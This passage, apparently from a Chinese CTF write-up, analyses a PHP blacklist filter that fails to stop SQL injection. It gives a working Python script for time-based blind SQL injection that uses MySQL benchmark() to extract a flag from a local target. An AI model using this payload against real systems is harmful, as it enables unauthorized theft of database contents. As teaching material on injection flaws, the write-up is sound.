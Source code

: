 我们可以清楚的看到 **stophack** 函数存在 **过滤不严** 和 **检测到非法字符未直接退出** 两个问题。

![8](7.png)

程序如果检测到非法字符或单词，都会将其替换成字符串 **HongRi** ，然而并没有立即退出，这样攻击者输入的攻击语句还是会继续被带入数据库查询。只不过这里关键词都被替换成了字符串 **HongRi** ，所以我们需要绕过这里的黑名单。纵观整个程序，当 **SQL** 语句执行出错时，并不会将错误信息显示出来，所以此处应为盲注。开发者估计也是考虑到这个问题，便将关键词 **sleep** 给过滤了，然而这并不能影响攻击者继续使用盲注来获取数据。关于禁用了 **sleep** 函数的盲注，大家可以直接参考这篇文章：[mysql 延时注入新思路](https://xz.aliyun.com/t/2288) 。这里我直接利用 **benchmark** 函数来获取flag。python程序如下：

```python
import sys, string, requests

version_chars = ".-{}_" + string.ascii_letters + string.digits + '#'
flag = ""
for i in range(1,40):
    for char in version_chars:
        payload = "-1 or if(ascii(mid((select flag from flag),%s,1))=%s,benchmark(200000000,7^3^8),0)" % (i,ord(char))
        url = "http://localhost/index.php?id=%s" % payload
        if char == '#':
            if(flag):
                sys.stdout.write("\n[+] The flag is： %s" % flag)
                sys.stdout.flush()
            else:
                print("[-] Something run error!")
            exit()
        try:
            r = requests.post(url=url, timeout=2.0)
        except Exception as e:
            flag += char
            sys.stdout.write("\r[-] Try to get flag： %s" % flag)
            sys.stdout.flush()
            break
print("[-] Something run error!")
```
